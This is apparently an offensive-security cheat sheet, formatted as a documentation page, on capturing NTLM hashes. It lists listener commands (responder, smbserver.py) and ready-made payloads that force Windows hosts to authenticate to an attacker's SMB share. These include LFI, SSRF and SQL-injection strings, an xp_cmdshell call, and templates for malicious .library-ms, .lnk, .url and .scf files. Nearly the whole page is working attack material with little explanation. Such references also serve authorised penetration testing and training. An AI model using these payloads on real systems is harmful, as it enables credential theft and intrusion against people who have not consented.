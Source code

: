 ```yaml
---
icon: ear
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Capturing NTLM

## Listener

```sh
sudo responder -I <interface>
```

```sh
smbserver.py share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```sh
# LFI
?page=\\<attaker>\shared

# SSRF
?url=file:////<attaker>/shared

# SQL Injection
?id=1' union select null,load_file('\\\\<attaker>\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\<attaker>\shared',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\<attaker>\shared'),null-- -
```

### Via .library-ms file

```sh
cat > \!shared.library-ms <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\<attacker>\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```sh
pylnk3 c '\\<attacker>\shared' \!shared.lnk -i '\\<attacker>\shared\icon.ico'
```

### Via .url file

```sh
cat > \!shared.url <<EOF
[InternetShortcut]
URL=\\\\<attacker>\\shared
IconIndex=1
IconFile=\\\\<attacker>\\shared\\icon.ico
EOF
```

### Via .scf file

```sh
cat > \!shared.scf <<EOF
[Shell]
Command=2
IconFile=\\\\<attacker>\\shared\\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

